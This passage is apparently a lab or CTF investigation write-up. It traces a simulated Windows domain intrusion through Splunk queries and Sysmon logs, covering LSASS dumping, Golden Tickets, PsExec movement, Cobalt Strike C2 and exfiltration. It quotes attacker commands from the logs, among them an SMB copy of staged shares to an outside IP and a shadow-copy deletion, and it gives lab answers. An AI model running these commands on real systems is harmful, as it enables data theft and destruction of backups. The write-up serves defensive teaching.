        <TimeCreated SystemTime='2025-12-02T17:56:10.7964204Z'/>
        ...
				<Data Name='RuleName'>technique_id=T1543.003,technique_name=Windows Service</Data>
				...
				<Data Name='ParentCommandLine'>C:\Windows\system32\cmd.exe /C sc create "WindowsUpdateService" binPath= "C:\Windows\Temp\winupdate.exe" start= auto</Data>
				...
```

The full command line registered the new service in the Service Control Manager (SCM) database with automatic start enabled:

```bash
sc create "WindowsUpdateService" binPath= "C:\Windows\Temp\winupdate.exe" start= auto
```

# Credential Access

Q14- With elevated privileges, the attacker accessed the memory of the LSASS process to dump credentials. What is the exact UTC timestamp when this credential dumping activity occurred? (24-Hr Format)

Answer: `2025-12-02 14:45:15`

Reason: On `Workstation-01`, `rundll32.exe` running under the `CORP\ncooper` user context opened a handle to `lsass.exe` with a `GrantedAccess` value of `0x1010`. This bitmask is a combination of `PROCESS_VM_READ` (`0x0010`) and `PROCESS_QUERY_LIMITED_INFORMATION` (`0x1000`), representing the minimum permissions required to read process memory and extract credential material from the Local Security Authority Subsystem Service (LSASS) address space.

LSASS holds authentication artifacts in memory for active sessions, including New Technology LAN Manager (NTLM) hashes, Kerberos tickets, and in some configurations cleartext passwords cached by Wide Digest (WDigest) or similar providers. Reading this memory yields credentials that can be replayed across the network using techniques such as Pass-the-Hash or Pass-the-Ticket. The deliberately minimal access mask is a known evasion choice, since requesting the broader `PROCESS_ALL_ACCESS` right is far more conspicuous and frequently flagged by Endpoint Detection and Response (EDR) products monitoring LSASS access patterns.   `rundll32.exe` has no legitimate reason to access LSASS. It loads and executes DLLs, it is not a credential or authentication component. Any LSASS access from `rundll32` is inherently suspicious.

The call trace for the handle open terminated in an `UNKNOWN` memory region rather than a named, loaded module on disk. This confirms the dumping code executed from dynamically allocated shellcode in private memory rather than from a legitimate signed image, consistent with the previously injected `WakeWordEngine.dll` payload operating reflectively inside the `rundll32.exe` process. This activity maps to MITRE ATT&CK technique T1003.001, OS Credential Dumping: LSASS Memory. The Search Processing Language (SPL) query below filters Sysmon Event ID (EID) `10` process access events tagged with the credential dumping technique rule, narrowing to handles opened against `lsass.exe` by `rundll32.exe`:

```bash
index=* host=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" RuleName="technique_id=T1003,technique_name=Credential Dumping" TargetImage="C:\\Windows\\system32\\lsass.exe" rundll32.exe

<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'>
    <System>
        <Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/>
				...
        <TimeCreated SystemTime='2025-12-02T14:45:15.8120869Z'/>
        ...
        <Data Name='RuleName'>technique_id=T1003,technique_name=Credential Dumping</Data>
        ...
        <Data Name='SourceImage'>C:\Windows\system32\rundll32.exe</Data>
        <Data Name='TargetProcessGUID'>{c73af8d8-a694-692e-0c00-000000005200}</Data>
        <Data Name='TargetProcessId'>696</Data>
        <Data Name='TargetImage'>C:\Windows\system32\lsass.exe</Data>
        <Data Name='GrantedAccess'>0x1010</Data>
        <Data Name='CallTrace'>C:\Windows\SYSTEM32\ntdll.dll+9d9b4|C:\Windows\System32\KERNELBASE.dll+3313e|UNKNOWN(00000191861BDFB8)</Data>
        <Data Name='SourceUser'>CORP\ncooper</Data>
        <Data Name='TargetUser'>NT AUTHORITY\SYSTEM</Data>
    </EventData>

```

Q15- On WORKSTATION-01, the attacker spawned a process that kept the local user’s identity locally but presented a Domain Administrator’s credentials for any outbound network access. Find the logon event that captured this credential handoff and provide its exact UTC timestamp. (24Hr Format)

Answer: `2025-12-02 15:22:55`

Reason: Approximately 37 minutes after dumping the Local Security Authority Subsystem Service (LSASS) process memory, the attacker created a Logon Type 9 `NewCredentials` session on `Workstation-01`. This logon type preserves the local `ncooper` identity for all local operations while silently substituting elevated credentials for any outbound network authentication, the defining behavior of the `runas /netonly` workflow that attackers abuse to operate under a stolen identity without disturbing the existing interactive session. The `GroupMembership` field confirms the injected token carried `BUILTIN\\Administrators` with Security Identifier (SID) `S-1-5-32-544` and ran at High Mandatory Level integrity, granting domain-wide lateral movement capability while the local session continued to appear as an ordinary user to anyone observing the workstation. This split-identity behavior is the core evasion value of Logon Type 9: process listings, window stations, and on-screen telemetry all reflect the unprivileged user, while authenticated network calls to file servers, domain controllers, or remote management interfaces present the elevated credentials.

The specific credential material used, whether an New Technology LAN Manager (NTLM) hash, a Kerberos ticket, or a plaintext password, cannot be determined from this event alone. The LSASS dump that occurred 37 minutes prior is the most probable source given the timing proximity and the operational sequence. This activity maps to MITRE ATT&CK technique T1550, Use Alternate Authentication Material, with sub-techniques T1550.002, Pass the Hash, and T1550.003, Pass the Ticket, both consistent with the observed pattern. The Search Processing Language (SPL) query below filters the Windows Security log on the workstation for any Logon Type 9 session events:

```bash
index=* host="WORKSTATION-01" Logon_Type=9 source="XmlWinEventLog:Security"

<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'>
    <System>
        <Provider Name='Microsoft-Windows-Security-Auditing' Guid='{54849625-5478-4994-a5ba-3e3b0328c30d}'/>
				...
        <TimeCreated SystemTime='2025-12-02T15:22:55.4343018Z'/>
        ...
        <Computer>WORKSTATION-01</Computer>
        ...
        <Data Name='TargetUserName'>ncooper</Data>
        <Data Name='TargetDomainName'>CORP</Data>
        <Data Name='TargetLogonId'>0x41020bf</Data>
        <Data Name='LogonType'>9</Data>
        <Data Name='GroupMembership'>
					CORP\Domain Users
					%{S-1-1-0}
					%{S-1-5-32-544}
					BUILTIN\Remote Desktop Users
					BUILTIN\Remote Management Users
					BUILTIN\Users
					NT AUTHORITY\INTERACTIVE
					NT AUTHORITY\Authenticated Users
					NT AUTHORITY\This Organization
					Mandatory Label\High Mandatory Level</Data>
					...
```

## Split-Token Logon

A split-token logon creates a single process that holds two credential contexts simultaneously, decoupling local identity from network identity. This is the legitimate behavior of `runas /netonly`, repurposed by attackers as a stealth mechanism for credential reuse after dumping the Local Security Authority Subsystem Service (LSASS) process or otherwise harvesting authentication material. The two contexts behave as follows:

1. Local side: the process continues to run under the original user token (for example `ncooper`). All local process activity, file access, registry operations, and host-level audit records attribute back to the legitimate user.
2. Network side: any outbound authenticated connection over Server Message Block (SMB), Windows Remote Management (WinRM), Lightweight Directory Access Protocol (LDAP), or Remote Procedure Call (RPC) automatically presents the injected credentials, which may belong to a Domain Administrator (DA) or other privileged principal.

Detection difficulty stems from where the evidence lands:

- Local audit logs appear normal because the process genuinely belongs to the original user.
- The elevated network authentication happens transparently and is typically logged on the remote system being accessed, not the source workstation.
- A defender monitoring only the source host sees a routine user session, while the DA-level lateral movement surfaces as an inbound event on a domain controller or file server.

The key detection pivot is cross-host event correlation: match the outbound Logon Type 9 (NewCredentials) on the source host against the inbound Logon Type 3 (Network) on the target host, joined on timestamp proximity and either the workstation name field or the source Internet Protocol (IP) address recorded in the target Event ID (EID) `4624`. A Logon Type 9 on the source with no corresponding privileged inbound logon elsewhere is benign; a Logon Type 9 followed seconds later by a high-privilege inbound logon on a domain controller is the attack signature.

Q16- Using the compromised Domain Administrator credentials, the attacker was able to extract the KRBTGT account hash via a DCSync attack. Due to limited visibility on the domain controller, we did not capture the replication request directly. However, we can confirm the success of this attack by analyzing subsequent Kerberos authentication. What encryption type (in hex) was used for the forged tickets, indicating the use of the KRBTGT NTLM hash?

Answer: `0x17`

Reason: After obtaining the Key Distribution Center service account (KRBTGT) hash via Directory Replication Service Remote Protocol (DRSR) replication, commonly known as DCSync, the attacker forged a Golden Ticket offline using Mimikatz. The DCSync technique abuses Active Directory's legitimate replication protocol to pull credential material directly from a domain controller without executing code on the target system, leaving minimal forensic footprint beyond the replication request itself. With the KRBTGT hash in hand, the attacker bypassed the normal Ticket Granting Ticket (TGT) issuance step entirely by crafting a self-signed TGT offline. No corresponding Event ID (EID) `4768` Authentication Service Request (AS-REQ) was logged on `DC01`, which is itself a strong detection signal: every legitimate TGT must originate from an AS-REQ to the Key Distribution Center (KDC), so a downstream service ticket request without a preceding TGT issuance event indicates the TGT was minted outside the domain controller. 

The forged ticket was presented to `DC01` in a Ticket Granting Service Request (TGS-REQ) logged as EID `4769` under the identity `maurelius@CORP.LOCAL`, targeting the `BACKUP01$` computer account and revealing the next lateral movement objective. The `TicketEncryptionType` value of `0x17`, corresponding to RC4-HMAC, is the Mimikatz Golden Ticket default when the ticket is forged from a New Technology LAN Manager (NTLM) hash rather than an Advanced Encryption Standard (AES) key. This represents a significant cryptographic anomaly in modern domains, where legitimate tickets are typically issued with AES256-CTS-HMAC-SHA1-96, identified by `TicketEncryptionType` `0x12`. This activity maps to MITRE ATT&CK technique T1558.001, Steal or Forge Kerberos Tickets: Golden Ticket.

```bash
index=* host="DC01" source="XmlWinEventLog:Security" TicketEncryptionType=0x17

<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'>
    <System>
        <Provider Name='Microsoft-Windows-Security-Auditing' Guid='{54849625-5478-4994-A5BA-3E3B0328C30D}'/>
				...
        <TimeCreated SystemTime='2025-12-02T18:22:19.188084100Z'/>
        ...
        <Data Name='TargetUserName'>maurelius@CORP.LOCAL</Data>
        <Data Name='TargetDomainName'>CORP.LOCAL</Data>
        <Data Name='ServiceName'>BACKUP01$</Data>
        <Data Name='ServiceSid'>CORP\BACKUP01$</Data>
        <Data Name='TicketOptions'>0x40810000</Data>
        <Data Name='TicketEncryptionType'>0x17</Data>
        ...
```

## Kerberos Encryption Downgrade as Forgery

The `TicketEncryptionType` field in Kerberos events is one of the highest-signal indicators for ticket forgery in modern Active Directory (AD) environments, because legitimate and forged tickets typically use different cryptographic algorithms by default. Modern domain controllers running Windows Server 2008 or later issue Kerberos tickets using Advanced Encryption Standard (AES) by default, specifically:

- `0x11`: AES128-CTS-HMAC-SHA1-96
- `0x12`: AES256-CTS-HMAC-SHA1-96

Legacy and weaker algorithms still supported for backward compatibility include:

- `0x17`: RC4-HMAC (New Technology LAN Manager (NTLM) hash based)
- `0x18`: RC4-HMAC-EXP (export-grade, effectively obsolete)
- `0x03`: DES-CBC-MD5 (disabled by default since Windows 7)

The forgery signal works as follows: when an attacker dumps credential material, the New Technology LAN Manager (NTLM) hash is far easier to obtain than the AES keys, since the NTLM hash is the primary credential stored for every account. Tools such as Mimikatz and Rubeus default to forging tickets with RC4-HMAC because they only require the NTLM hash, while forging an AES-encrypted ticket requires the separate AES256 key, which is not always present in dumped material.

The result is an encryption downgrade visible in telemetry: a domain that exclusively issues AES tickets in normal operation suddenly produces an RC4-HMAC ticket for a privileged account. Common forgery indicators by event type:

- Event ID (EID) `4768` Ticket Granting Ticket (TGT) issuance with `0x17`: possible Overpass-the-Hash or legacy client.
- EID `4769` Ticket Granting Service (TGS) request with `0x17` for a privileged account: strong Golden Ticket or Silver Ticket indicator.
- EID `4769` with `0x17` and no preceding `4768`: orphaned ticket request, classic Golden Ticket signature.

Q17- The attacker executed a PowerShell script on the backup server to extract credentials from the Veeam backup database. What is the name of this script, and what is the name of the DLL that the script references to decrypt the stored credentials?

Answer: `hapsgdsgd.ps1`, `Veeam.Backup.Common.dll`

Reason: On the Backup Server, the attacker executed a randomly-named PowerShell script `hapsgdsgd.ps1` from `C:\Users\Public\` using the `-ExecutionPolicy Bypass` flag to circumvent the default script execution restrictions enforced by PowerShell. The script leveraged the `Add-Type` cmdlet to load `Veeam.Backup.Common.dll` directly from the Veeam installation directory, a technique that abuses Veeam's own legitimate decryption library to extract plaintext credentials stored in the Veeam backup database. The random script filename `hapsgdsgd.ps1` is a hallmark of automated tooling output, and the placement in the world-writable `C:\Users\Public\` directory is consistent with the staging pattern observed earlier in the intrusion. The `-ExecutionPolicy Bypass` argument is one of the most reliable PowerShell abuse indicators, since legitimate administrators rarely need to override the execution policy at the command line for routine operations.

The technique itself is a case of trusted code reuse: rather than implementing custom decryption routines, the attacker called into Veeam's own signed Dynamic Link Library (DLL) to decrypt credentials using the vendor's intended Application Programming Interface (API). This yields every backup job credential stored in the Veeam configuration database, which commonly includes Domain Administrator (DA) or service accounts with broad rights across the environment, since backup software typically requires privileged access to read protected data. The script executed under the `WORKGROUP\SYSTEM` security context, consistent with the forged Golden Ticket lateral movement to `BACKUP01` observed in Q16. This activity maps to MITRE ATT&CK technique T1555, Credentials from Password Stores.

```bash
index=* host="BACKUP01" "Veeam.Backup.Common.dll" source="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational"

<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'>
    <System>
        <Provider Name='Microsoft-Windows-PowerShell' Guid='{a0c1853b-5c40-4b15-8766-3cf1c58f985a}'/>
        <EventID>4103</EventID>
				...
        <TimeCreated SystemTime='2025-12-02T18:37:59.8595778Z'/>
        ...
        <Computer>BACKUP01</Computer>
        ...
        Host Application = powershell -ExecutionPolicy Bypass -File C:\Users\Public\hapsgdsgd.ps1
				...
				<Data Name='Payload'>CommandInvocation(Add-Type): "Add-Type"
				ParameterBinding(Add-Type): name="Path"; value="C:\Program Files\Veeam\Backup and Replication\Backup Catalog\Veeam.Backup.Common.dll"
				</Data>
				...
```

# Discovery

Q18- After establishing a foothold on the domain controller, the attacker performed network reconnaissance by scanning internal systems. How many unique ports were scanned during this reconnaissance activity?

Answer: 12

Reason: After establishing a foothold on `DC01`, the attacker's `rundll32.exe` beacon performed an internal network port scan against multiple hosts. The definitive port list comes from `10.10.11.249`, the first and most thoroughly scanned target, which received connections on all 12 reconnaissance ports within a tight 2-second window. The compressed timing rules out manual probing and confirms automated scanner logic embedded in the implant.

Question interpretation caveat: the question phrasing references "scanning internal systems" in the plural, which naturally suggests aggregating unique ports across all scanned hosts. Taking the union across all five targets produces 14 unique ports, not 12, because secondary hosts received incidental probes on ports `80` and `5040` outside the core scan template. The intended answer of 12 requires isolating the primary scan target `10.10.11.249` rather than computing the aggregate, an interpretation the question wording does not signal. The lab author confirmed the question is tricky and frequently answered incorrectly for this reason. The breakdown of unique ports per host illustrates the distribution:

- `10.10.11.249`: 12 ports (30%)
- `10.10.11.13`: 7 ports (17.5%)
- `10.10.11.137`: 7 ports (17.5%)
- `10.10.11.192`: 7 ports (17.5%)
- `10.10.11.247`: 7 ports (17.5%)

The pattern shows `10.10.11.249` as the only host probed against the full reconnaissance template, while the remaining four received an abbreviated 7-port subset. Treating every observed destination port across all hosts as part of a single scan set conflates two distinct activities: the deliberate reconnaissance sweep against the primary target and the opportunistic follow-up probes against systems that responded.

Filtering Sysmon Event ID (EID) `3` network connection events from `SysWOW64\rundll32.exe` to `10.10.11.249` reveals the true scan signature of 12 unique ports covering the most common Windows service ports an attacker enumerates when fingerprinting an internal host. The port set targets Server Message Block (SMB), Remote Desktop Protocol (RDP), Lightweight Directory Access Protocol (LDAP), Kerberos, Windows Remote Management (WinRM), Domain Name System (DNS), and Secure Shell (SSH). This activity maps to MITRE ATT&CK technique T1046, Network Service Discovery.

```bash
index=* host="DC01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 Image="*SysWOW64*rundll32*" DestinationIp="10.10.11.249"
| stats dc(DestinationPort) as unique_ports, values(DestinationPort) as ports
```

The aggregation returned the following port set, each mapping to a well-known Windows or Unix service typically targeted during internal reconnaissance:

- `22`: Secure Shell (SSH)
- `53`: Domain Name System (DNS)
- `88`: Kerberos authentication
- `135`: Remote Procedure Call (RPC) endpoint mapper
- `139`: NetBIOS Session Service
- `389`: Lightweight Directory Access Protocol (LDAP)
- `445`: Server Message Block (SMB) over Transmission Control Protocol (TCP)
- `464`: Kerberos password change (kpasswd)
- `593`: RPC over Hypertext Transfer Protocol (HTTP)
- `636`: LDAP over Secure Sockets Layer (LDAPS)
- `3389`: Remote Desktop Protocol (RDP)
- `5985`: Windows Remote Management (WinRM) over HTTP

Unique count: `12`

Q19- The attacker deployed two reconnaissance tools on the domain controller to enumerate Active Directory. One tool was renamed to evade detection. What are the names of these two tools? (Provide the original name for the renamed tool)

Answer: `SharpHound`, `ADFind`

Reason: The attacker deployed two Active Directory (AD) enumeration tools on `DC01` from the `C:\Windows\Temp\` staging directory. Both processes were spawned by `cmd.exe`, which in turn was launched by the malicious `rundll32.exe` beacon, preserving the same parent-child execution chain established during initial compromise.

The first tool, `ADFind.exe`, retained its original filename and was executed twice. The first invocation enumerated all user objects in the directory, extracting the `name`, `mail`, and `title` attributes to identify personnel for follow-on targeting such as phishing or impersonation. The second invocation enumerated all computer objects, extracting the `name` and `operatingSystem` attributes to map the network estate and identify systems running outdated or vulnerable platforms. Both queries wrote results to plaintext files in `C:\Windows\Temp\` for later exfiltration.

The second tool, SharpHound, is the data collector component of the BloodHound attack path analysis framework. It was renamed to `syscheck.exe` to evade detection, since the original `SharpHound.exe` filename is widely signatured by Endpoint Detection and Response (EDR) products and antivirus engines. Renaming offensive tooling to mimic legitimate diagnostic utilities is a common evasion tactic that defeats filename-based detection while having no effect on behavioral or hash-based controls. The tool ran with the `-c All` collection method to gather every available AD relationship category, including sessions, local administrator memberships, trusts, and Access Control List (ACL) data, outputting the results to `fho3of9.zip` for exfiltration. This activity maps to MITRE ATT&CK techniques T1087.002, Account Discovery: Domain Account, and T1069.002, Permission Groups Discovery: Domain Groups.

```bash
index=* host="DC01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 (Image="*syscheck*" OR Image="*ADFind*")
  | table _time, Image, CommandLine, ParentImage

_time                  Image                          CommandLine                                                       ParentImage
2025-12-02 16:01:06    C:\Windows\Temp\ADFind.exe     ADFind.exe -f "(objectCategory=computer)" name operatingSystem    C:\Windows\SysWOW64\cmd.exe
2025-12-02 16:00:19    C:\Windows\Temp\ADFind.exe     ADFind.exe -f "(objectCategory=person)" name mail title           C:\Windows\SysWOW64\cmd.exe
2025-12-02 15:50:10    C:\Windows\Temp\syscheck.exe   syscheck.exe -c All --zipfilename fho3of9.zip                     C:\Windows\SysWOW64\cmd.exe
```

# Lateral Movement

Q20- The attacker used PsExec to move laterally from WORKSTATION-01 to the domain controller (DC01). What is the exact UTC timestamp when the PsExec service was installed on DC01?

Answer: `2025-12-02 15:31:05`

Reason: `PsExec` lateral movement from `Workstation-01` to `DC01` was confirmed through two corroborating artifacts. Windows System Event Identifier (ID) `7045` recorded the installation of a randomly-named service `2b0e02b`, with its binary dropped to `\\DC01.corp.local\ADMIN$\2b0e02b.exe`. This matches `PsExec`'s characteristic behavior of copying a uniquely-named executable to the administrative share before registering it as a demand-start service. System Monitor (Sysmon) Event ID `11` simultaneously captured the file creation of `C:\Windows\2b0e02b.exe` at the same timestamp, confirming the drop and service install happened atomically. The random service name is `PsExec`'s built-in obfuscation technique to evade static signature detection. This activity maps to MITRE ATT&CK Technique `T1570` (Lateral Tool Transfer) and `T1021.002` (Remote Services: Server Message Block (SMB)/Windows Admin Shares).

Search Processing Language (SPL) 1 covers the service install. The query targets `DC01`'s System channel for Event ID `7045`, returning the service name `2b0e02b`, the image path `\\DC01.corp.local\ADMIN$\2b0e02b.exe`, a service type of user mode service, and a start type of demand start. SPL 2 covers the file drop. The query targets Sysmon Event ID `11` on `DC01` filtered by the string `2b0e02b`, returning `TargetFilename` of `C:\Windows\2b0e02b.exe`, `Image` of `System`, and `UtcTime` of `2025-12-02 15:31:05.523`.

A small technical clarification worth noting: in `PsExec` activity, the Sysmon Event ID `11` `Image` field typically shows `services.exe` rather than `System`, because the Service Control Manager (SCM) writes the binary to disk when registering the service. A literal `Image: System` value in the original artifact should be verified against the raw event, as it may indicate either a kernel-mode write or a parsing artifact.

Service install SPL:

```bash
index=* host="DC01" source="XmlWinEventLog:System" EventCode=7045
| table _time, ServiceName, ImagePath, ServiceType, StartType

_time	              ServiceName	   ImagePath	                               ServiceType	         StartType
2025-12-02 15:31:05	2b0e02b	       \\DC01.corp.local\ADMIN$\2b0e02b.exe	     user mode service	   demand start
```

`PsExec` binary drop SPL:

```bash
index=* host="DC01" "2b0e02b" EventCode=11
| table _time, TargetFilename, Image, UtcTime

_time	                   TargetFilename	             Image	     UtcTime
2025-12-02 15:31:05	     C:\Windows\2b0e02b.exe	     System	     2025-12-02 15:31:05.523
```

Q21- After compromising the domain controller, the attacker moved laterally to the file server (FS01). What is the exact UTC timestamp when the PsExec service was installed on FS01?

Answer: `2025-12-02 17:33:05`

Reason: The attacker used the same `PsExec` lateral movement technique observed in Q20 to pivot from `DC01` to the file server `FS01` approximately two hours later. Windows System Event ID (EID) `7045` recorded the installation of the randomly named service `7ab3ee3`, which dropped its service binary to `\\FS01.corp.local\ADMIN$\7ab3ee3.exe`, consistent with the uniquely named executable pattern seen during the `DC01` compromise. This activity indicates systematic, host-by-host lateral movement using harvested credentials. This maps to MITRE ATT&CK technique `T1021.002`, Remote Services: Server Message Block (SMB) and Windows Admin Shares.

```bash
index=* host="FS01" source="XmlWinEventLog:System" EventCode=7045
| table _time, ServiceName, ImagePath, ServiceType, StartType

_time	                   ServiceName	 ImagePath	                               ServiceType	           StartType
2025-12-02 17:33:05	     7ab3ee3	     \\FS01.corp.local\ADMIN$\7ab3ee3.exe	     user mode service	     demand start
```

Q22- The final system targeted for lateral movement was the backup server (BACKUP01). What is the name of the executable that was created by PsExec on BACKUP01?

Answer: `295b21c.exe`

Reason: Completing the lateral movement chain across all five systems, the attacker used PsExec to compromise the Backup Server, with Windows System Event ID 7045 recording the installation of the randomly-named service binary 295b21c.exe dropped to the ADMIN$ share — consistent with the same PsExec pattern observed on DC01 (2b0e02b.exe) and FS01 (7ab3ee3.exe). The Backup Server was the final target, likely chosen for its Veeam credentials and backup data access confirmed in Q17. This maps to MITRE T1021.002 - Remote Services: SMB/Windows Admin Shares.

```bash
index=* host="BACKUP01" source="XmlWinEventLog:System" EventCode=7045
| table _time, ServiceName, ImagePath, ServiceType, StartType

_time	                   ServiceName	 ImagePath	                                  ServiceType	           StartType
2025-12-02 18:22:19	     295b21c	     \\BACKUP01.corp.local\ADMIN$\295b21c.exe     user mode service	     demand start
```

# Command and Control

Q23- The malicious process on WORKSTATION-01 established numerous connections to an external server. What is the IP address of this Command and Control (C2) server?

Answer: `3.79.56.148`

Reason: The malicious `rundll32.exe` process on `Workstation-01` (running as `CORP\ncooper`) established `431,435` outbound Transmission Control Protocol (TCP) connections to `3[.]79[.]56[.]148` on port `80`, using Hypertext Transfer Protocol (HTTP) to blend beacon traffic into normal web traffic and evade network-level detection. The sheer volume of connections confirms persistent Command and Control (C2) beaconing behavior, where the implant repeatedly checks in with the attacker's infrastructure throughout the entire operation. The source Internet Protocol (IP) address `10.10.11.247` confirms this is `Workstation-01`'s internal address. This activity maps to MITRE ATT&CK Technique `T1071.001` (Application Layer Protocol: Web Protocols) and `T1218.011` (Signed Binary Proxy Execution: Rundll32).

The Search Processing Language (SPL) query targets `Workstation-01`'s Sysmon Operational channel for Event Identifier (ID) `3` (network connection), filtered to the `rundll32.exe` process image and scoped to exclude RFC1918 private address ranges using Classless Inter-Domain Routing (CIDR) matching to isolate external traffic from internal noise. The results aggregate connection counts by destination IP and port. The beacon profile that emerges shows the C2 IP `3[.]79[.]56[.]148`, port `80`, protocol TCP, and a connection count of `425,229`. The source process is `C:\Windows\System32\rundll32.exe`, executed under the user context `CORP\ncooper`.

```bash
index=* host="WORKSTATION-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 Image="*rundll32*" NOT (DestinationIp="10.0.0.0/8" OR DestinationIp="172.16.0.0/12" OR DestinationIp="192.168.0.0/16" OR DestinationIp="127.0.0.0/8")
| stats count by DestinationIp, DestinationPort
| sort -count

DestinationIp	   DestinationPort	  count
3.79.56.148	     80	                431435
```

Q24- Shortly after establishing their implant on WORKSTATION-01, the attacker's C2 framework automatically executed a command to set the console code page for consistent output encoding. This command is a well-known behavioral indicator for a specific attack framework. What code page number was set?

Answer: `437`

Reason: Approximately five minutes after the initial payload execution, Cobalt Strike automatically issued `chcp 437` via a double `cmd.exe` invocation, a characteristic Cobalt Strike pattern of wrapping commands as `cmd.exe /C cmd /c <command>`, to set the console code page for consistent output encoding of beacon command results. The parent process is `explorer.exe`, confirming this spawned from the earlier Dynamic Link Library (DLL) injection into Explorer (Q6). The command ran under `WORKSTATION-01\Administrator` with High integrity, and its automatic execution within minutes of beacon establishment without operator input is a well-documented Cobalt Strike behavioral fingerprint. This activity maps to MITRE ATT&CK Technique `T1059.003` (Command and Scripting Interpreter: Windows Command Shell).

```bash
index=* host="WORKSTATION-01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" *chcp* EventDescription="Process creation"
| table _time, CommandLine, ParentImage, User, IntegrityLevel

<Data Name='RuleName'>technique_id=T1204,technique_name=User Execution</Data>
<Data Name='UtcTime'>2025-12-02 14:05:07.876</Data>
...
<Data Name='CommandLine'>C:\Windows\system32\cmd.exe /C cmd /c chcp 437</Data>
<Data Name='CurrentDirectory'>C:\Windows\system32\</Data>
<Data Name='User'>WORKSTATION-01\Administrator</Data>
```

Q25- On the domain controller, the attacker's implant created named pipes for post-exploitation activities. One specific pipe name uses terminology that is internal to the Cobalt Strike framework and is created when executing post-exploitation jobs. What is the full name of this pipe?

Answer: `\postex_9adf`

Reason: On `DC01`, `rundll32.exe` running as `NT AUTHORITY\SYSTEM` created a named pipe `\postex_9adf`. The `postex_` prefix is Cobalt Strike's internal naming convention for pipes created during post-exploitation job execution, used to ferry output from spawned jobs (such as `hashdump`, `screenshot`, or `keylogger`) back to the beacon process. The random hexadecimal suffix `9adf` is generated per-job. This pipe creation occurring at `15:35:16`, four minutes after PsExec installed the beacon on `DC01` (Q20, `15:31:05`), confirms the attacker was immediately running post-exploitation modules after lateral movement. This activity maps to MITRE ATT&CK Technique `T1071` (Application Layer Protocol) and `T1559` (Inter-Process Communication).

```bash
index=* host="DC01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=17
| table _time, PipeName, Image, User

<Data Name='RuleName'>-</Data>
<Data Name='EventType'>CreatePipe</Data>
<Data Name='UtcTime'>2025-12-02 15:35:16.888</Data>
...
<Data Name='PipeName'>\postex_9adf</Data>
<Data Name='Image'>C:\Windows\syswow64\rundll32.exe</Data>
<Data Name='User'>NT AUTHORITY\SYSTEM</Data>
```

# Collection

Q26- On the file server (FS01), the attacker archived sensitive data from multiple corporate shares. What are the names of all the shares that were included in the archive?

Answer: `Finance`, `Legal`, `HR`, `Executive`, `Contracts`

Reason: On `FS01`, the attacker used PowerShell's `Compress-Archive` cmdlet to stage sensitive data from five corporate shares into a single archive `npoived.zip` at `C:\Users\Public\`, a world-readable staging directory used throughout this attack. The shares targeted were `Finance`, `Legal`, `HR`, `Executive`, and `Contracts`, representing the full breadth of sensitive corporate data. The archive was then timestomped to `2036-01-01` (Q8) to obscure its true creation time before being exfiltrated to an external Internet Protocol (IP) address via Server Message Block (SMB) copy. This activity maps to MITRE ATT&CK Technique `T1560.001` (Archive Collected Data: Archive via Utility), with associated coverage of `T1070.006` (Indicator Removal: Timestomp) for the file time manipulation and `T1048` (Exfiltration Over Alternative Protocol) for the outbound SMB transfer to `3[.]120[.]129[.]182`.

The reconstructed timeline shows three distinct stages. At `2025-12-02 17:42:13`, archive creation executed `powershell Compress-Archive -Path C:\Shares\Finance,C:\Shares\Legal,C:\Shares\HR,C:\Shares\Executive,C:\Shares\Contracts -DestinationPath C:\Users\Public\npoived.zip -CompressionLevel Optimal`. At `2025-12-02 17:45:16`, the timestomp operation set all timestamps to `2036-01-01T00:00:00`. At `2025-12-02 18:11:04`, exfiltration occurred via `copy C:\Users\Public\npoived.zip \\3[.]120[.]129[.]182\share\`.

```bash
index=* host="FS01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" *npoived.zip* EventCode=1
| table _time, CommandLine, ParentImage, User

...
<TimeCreated SystemTime='2025-12-02T17:42:13.4139544Z'/>
...
<Data Name='RuleName'>technique_id=T1059.001,technique_name=PowerShell</Data>
...
<Data Name='CommandLine'>powershell  Compress-Archive -Path C:\Shares\Finance,C:\Shares\Legal,C:\Shares\HR,C:\Shares\Executive,C:\Shares\Contracts -DestinationPath C:\Users\Public\npoived.zip -CompressionLevel Optimal</Data>
<Data Name='CurrentDirectory'>C:\Shares\</Data>
<Data Name='User'>NT AUTHORITY\SYSTEM</Data>
```

# Exfiltration

Q27- The attacker copied the compressed data to an external server. What is the IP address of this exfiltration server?

Answer: `3.120.129.182`

Reason: The attacker copied the staged archive `npoived.zip` to an external server at `3[.]120[.]129[.]182` via a native Windows `copy` command targeting a Server Message Block (SMB) share (`\\3[.]120[.]129[.]182\share\`), blending the exfiltration into normal file copy operations and avoiding any custom transfer tooling. This is a separate infrastructure Internet Protocol (IP) address from the Command and Control (C2) server `3[.]79[.]56[.]148` identified in Q23, indicating the attacker maintained dedicated servers for C2 versus data exfiltration. This activity maps to MITRE ATT&CK Technique `T1048.003` (Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol).

```bash
index=* host="FS01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" *npoived.zip* EventCode=1
| table _time, CommandLine, ParentImage, User

...
<TimeCreated SystemTime='2025-12-02T18:11:04.5939146Z'/>
...
<Data Name='CommandLine'>C:\Windows\system32\cmd.exe /C copy C:\Users\Public\npoived.zip \\3.120.129.182\share\</Data>
<Data Name='CurrentDirectory'>C:\Windows\Temp\</Data>
<Data Name='User'>NT AUTHORITY\SYSTEM</Data>
<Data Name='ParentImage'>C:\Windows\SysWOW64\rundll32.exe</Data>
<Data Name='ParentCommandLine'>C:\Windows\System32\rundll32.exe</Data>
```

# Impact

Q28- Before deploying ransomware, the attacker attempted to inhibit system recovery. What is the full command used to delete volume shadow copies?

Answer: `vssadmin delete shadows /all /quiet`

